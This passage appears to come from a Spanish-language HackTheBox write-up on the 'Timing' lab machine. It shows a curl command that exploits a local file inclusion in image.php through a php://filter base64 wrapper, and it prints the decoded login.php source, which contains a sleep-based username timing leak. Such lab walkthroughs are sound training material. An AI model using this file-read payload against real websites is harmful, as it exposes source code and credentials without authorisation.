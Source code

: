 Perfecto, gracias a este wrapper de php hemos sido capaces de leer el contenido de un archivo local, vamos a ver cómo aprovecharnos de esto.
En primer lugar podemos ver el código del archivo **`login.php`** y de este modo verificar si existen contraseñas
hardcodeadas en el código fuente que nos permita ingresar en la web o el sistema. Para ello usaré un filtro php de conversión a base64.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=login.php" | base64 -d
<?php

include "header.php";

function createTimeChannel()
{
    sleep(1);
}

include "db_conn.php";

if (isset($_SESSION['userid'])){
    header('Location: ./index.php');
    die();
}


if (isset($_GET['login'])) {
    $username = $_POST['user'];
    $password = $_POST['password'];

    $statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
    $result = $statement->execute(array('username' => $username));
    $user = $statement->fetch();

    if ($user !== false) {
        createTimeChannel();
        if (password_verify($password, $user['password'])) {
            $_SESSION['userid'] = $user['id'];
            $_SESSION['role'] = $user['role'];
	    header('Location: ./index.php');
            return;
        }
    }
    $errorMessage = "Invalid username or password entered";


}
?>
...[snip]...
```
